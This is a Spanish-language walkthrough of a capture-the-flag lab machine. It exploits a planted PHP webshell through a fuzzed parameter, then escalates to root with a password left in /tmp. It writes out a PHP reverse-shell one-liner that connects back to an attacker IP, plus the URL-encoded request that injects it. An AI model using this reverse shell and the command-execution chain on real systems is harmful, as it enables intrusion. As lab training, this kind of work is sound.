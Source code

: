 ## 1. Reconocimiento Inicial con Nmap

```bash
nmap -sC -sV --open 172.17.0.2
```

 **Resultado del escaneo** 
```
80/tcp open  http    Apache httpd 2.4.57 ((Debian))  
|_http-server-header: Apache/2.4.57 (Debian)  
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)  
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

La salida de `nmap` indica que el puerto 80 está abierto y que un servidor web Apache httpd versión 2.4.57 (Debian) está en ejecución. El título de la página web es "Academia de Inglés (Inglis Academi)", lo que nos da una pista sobre el tipo de contenido alojado. Además, se observa una nota en el ejercicio que dice: "Guardo un secretito en /tmp ;)", lo que sugiere que hay información relevante en el directorio `/tmp` del sistema, posiblemente para la fase de escalada de privilegios.

## 2. Enumeración de Contenido Web con Gobuster

Dado que se ha identificado un servidor web, el siguiente paso es enumerar directorios y archivos ocultos o no enlazados. 

```bash
gobuster dir -u http://172.17.0.2 -w /home/eduard/WordList/directories.txt -x php,txt,html,php.bak
```

 **Resultado de Gobuster**
```
/index.html           (Status: 200) [Size: 2510]  
/shell.php            (Status: 500) [Size: 0]  
/warning.html         (Status: 200) [Size: 315]
```

Revela varios archivos interesantes:

*   `/index.html`: La página principal del sitio web.
*   `/shell.php`: Un archivo PHP que devuelve un código de estado `500` (Error Interno del Servidor) y un tamaño de 0 bytes. Esto es una fuerte indicación de que podría ser una webshell, pero que requiere un parámetro específico para funcionar correctamente.
*   `/warning.html`: Un archivo HTML que contiene un mensaje relevante.

Al acceder a `warning.html`, se encuentra el siguiente mensaje:

> Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...

Esta es una pista crucial que confirma la existencia de una webshell (`shell.php`) y que su funcionamiento depende de un parámetro desconocido. El objetivo ahora es descubrir este parámetro.

---
Antes de atacar shell.php,  descargamos las imágenes con wget `htttp://<ip><img>` y usamos steghide y exiftool en ellas en busca de información oculta, pero sin obtener resultado.


### 3. Fuzzing de Parámetros con Wfuzz
El siguiente paso lógico es realizar un fuzzing de parámetros en `shell.php` para identificar el correcto que activa la funcionalidad de la webshell. 

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```

**Resultado**: "parameter".

El resultado del `wfuzz` devuelve 2 líneas, a diferencia de otros intentos que devuelven 0 líneas. Esto indica que `shell.php?parameter=id` está ejecutando el comando `id` y devolviendo su salida. Esto confirma que se ha logrado una Ejecución Remota de Comandos (RCE).

![[WhereIsMyWebShell_Fuzzing.png]]

## 4. Obtención de una Reverse Shell

Una vez que se ha confirmado la RCE, el siguiente paso es obtener una `reverse shell` para tener una conexión interactiva y estable con la máquina objetivo. Una `reverse shell` es una conexión iniciada desde la máquina objetivo hacia la máquina del atacante, lo que a menudo evade los firewalls que bloquean las conexiones entrantes.

### Preparación del Listener en la Máquina Atacante

En la máquina del atacante, se configura un `listener` utilizando `netcat` para esperar la conexión entrante de la `reverse shell`.

```bash
nc -lnvp 443
```


### Generación y Ejecución de la PHP Reverse Shell

Se busca una `PHP reverse shell` adecuada en recursos como `https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/`. La plantilla utilizada es:
![[WhereIsMyWebShell_Reverse_Shell.png]]
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Se ajusta la IP y el puerto a los de la máquina atacante (`172.17.0.1` y `443` respectivamente):

```php
php -r '$sock=fsockopen("172.17.0.1",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
*   `fsockopen("172.17.0.1",443)`: Abre un socket TCP y se conecta a la IP y puerto especificados de la máquina atacante.
*   `exec("/bin/sh -i <&3 >&3 2>&3")`: Ejecuta una shell interactiva (`/bin/sh -i`) y redirige la entrada, salida y error estándar a través del socket abierto, estableciendo así la `reverse shell`.

Finalmente, esta cadena PHP se codifica en URL para ser inyectada a través del parámetro `parameter` de `shell.php`:

```
http://172.17.0.2/shell.php?parameter=php%20-r%20%27%24sock%3Dfsockopen(%22172.17.0.1%22%2C443)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```

Al acceder a esta URL en el navegador (o a través de `curl`), el navegador se quedará "colgado" o mostrará un error, lo que es una señal de que la `reverse shell` se ha ejecutado y la conexión se ha establecido con el `listener` de `netcat` en la máquina atacante. Se verifica el usuario actual con `whoami`:

```bash
$ whoami  
# www-data
```

## 5. Escalada de Privilegios

La pista inicial "Guardo un secretito en /tmp ;)" es fundamental para la escalada de privilegios. 

Se navega al directorio `/tmp`:

```bash
cd /tmp
```

Un `ls` normal no muestra nada, lo que sugiere que el archivo es oculto. Por lo que usamos la opción `-a`

```bash
ls -a
```

Revela el archivo oculto `.secret.txt`:

```
drwxrwxrwt 1 root root  6 Aug  1 17:33 .  
drwxr-xr-x 1 root root 39 Aug  1 17:33 ..  
-rw-r--r-- 1 root root 21 Apr 12  2024 .secret.txt
```

Finalmente, se lee el contenido de `.secret.txt` para obtener la contraseña:

```bash
$ cat .secret.txt  
contraseñaderoot123
```

La contraseña `contraseñaderoot123` es la clave para escalar a `root`.

### Escalada a Root 

Con la contraseña de `root`, se utiliza el comando `su` (substitute user) para cambiar al usuario `root`.

```bash
$ su -
Password: contraseñaderoot123
```

*   `su -`: El guion (`-`) después de `su` indica que se debe iniciar una shell de login para el usuario `root`, lo que significa que se cargará el entorno completo del usuario `root` (incluyendo su PATH y variables de entorno), lo cual es importante para asegurar que todos los comandos de `root` estén disponibles.


```bash
whoami  
root
```

Esto confirma que la escalada de privilegios ha sido exitosa y se tiene control total sobre el sistema como usuario `root`.
